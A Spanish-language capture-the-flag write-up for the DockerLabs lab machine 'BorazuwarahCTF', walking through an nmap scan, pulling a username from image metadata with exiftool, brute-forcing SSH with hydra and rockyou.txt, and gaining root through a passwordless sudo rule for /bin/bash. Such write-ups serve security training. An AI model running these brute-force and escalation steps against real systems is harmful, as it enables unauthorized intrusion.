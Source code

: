 ```yaml
---
title: CTF-DockerLabs-BorazuwarahCTF
published: true
---
```


## WriteUps maquina BorazuwarahCTF de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [EBorazuwarah]

# Datos

[!INFO] BorazuwarahCTF
  -  **Nombre:** BorazuwarahCTF
  -  **SO:** Linux
  -  **Dificultad:** Muy fácil
  -  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
  - 🚩Ingresar a la maquina como algún usuario.
  - 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh borazuwarahctf.tar
```

# Reconocimiento

  - Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:42 -05
Nmap scan report for 172.17.0.2
Host is up (0.000036s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
```

Con ello ahora se que existe el puerto 80 abierto y el puerto 22 con el servicio ssh.

# Chequeando puerto 80

  - Lo primero que hago es visitar la pagina web que aparece en el puerto 80 con el servicio web y resulta que solo tengo una imagen de huevo sorpresa que dice: Te quiero con el siguiente código:

```
<html  -
<body  -
<img src='[imagen.jpeg](http://172.17.0.2/imagen.jpeg)'  -
</body  -
</html  -
```

![TQhuevoSorpresa.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/TQhuevoSorpresa.png)

Código bastante sencillo y pues me parece extraño la importancia a la imagen, así que analizo la imagen su metadatos, de la siguiente forma: `exiftool descarga.jpeg` y con eso obtengo un usuario:

```
└─# exiftool descarga.jpeg 
ExifTool Version Number         : 12.76
File Name                       : descarga.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 12:37:09-05:00
File Access Date/Time           : 2024:05:28 12:37:09-05:00
File Inode Change Date/Time     : 2024:05:28 12:37:09-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: xxxxxxxx ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

# Fuerza bruta SSH

  - Ahora que ya tengo un usuario, procedo a realizar un ataque de fuerza bruta usando `hydra` como en las otras maquinas, de la siguiente manera:

```bash
hydra -l xxxxxxxx -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: xxxxxxxx   password: xxxxxxxx
```

Y rápidamente me encuentra la contraseña del usuario, a lo que me conecto por SSH.

# Elevando privilegios

Estando dentro de la maquina, realizo un típico `sudo -l` y el resultado es:

```
sudo -l
Matching Defaults entries for borazuwarah on 61599ead1e0b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 61599ead1e0b:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

A lo que sin dudarlo realizo un: `sudo /bin/bash` y listo, de esa manera soy root.

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `sudo bash auto_deploy.sh borazuwarahctf.tar`
  - `nmap 172.17.0.2`
  - `exiftool descarga.jpeg `
  - `hydra -l xxxxxxxx -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh`
  - `sudo -l`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |